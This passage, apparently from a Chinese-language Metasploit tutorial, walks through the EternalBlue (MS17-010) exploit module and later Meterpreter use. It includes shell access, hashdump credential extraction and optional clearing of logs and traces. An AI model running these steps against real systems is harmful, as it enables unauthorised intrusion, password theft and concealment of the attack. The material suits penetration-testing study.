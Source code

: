    替换 `[session ID]` 为 Meterpreter 会话的 ID。

3. **执行 Meterpreter 命令**： 一旦进入 Meterpreter 会话，你可以执行各种命令，例如：

   - 查看系统信息

     ：

     ```
     meterpreter > sysinfo
     ```

   - 列出文件和目录

     ：

     ```
     meterpreter > ls
     ```

   - 获取命令提示符

     ：

     ```
     meterpreter > shell
     ```

   - 提取敏感信息

     ：

     ```
     meterpreter > hashdump
     ```

### 5. 清理痕迹（可选）

如果你需要清理 Meterpreter 会话中的痕迹，可以使用一些后渗透模块来移除日志或恢复目标机器的安全状态。

### 总结

1. **启动 Metasploit**：使用 `msfconsole` 启动。
2. **选择模块**：使用 `use exploit/windows/smb/ms17_010_eternalblue`。
3. **设置目标和负载**：使用 `set RHOSTS`, `set PAYLOAD`, `set LHOST`。
4. **执行利用**：使用 `exploit` 或 `run`。
5. **与会话交互**：使用 `sessions -i [session ID]`。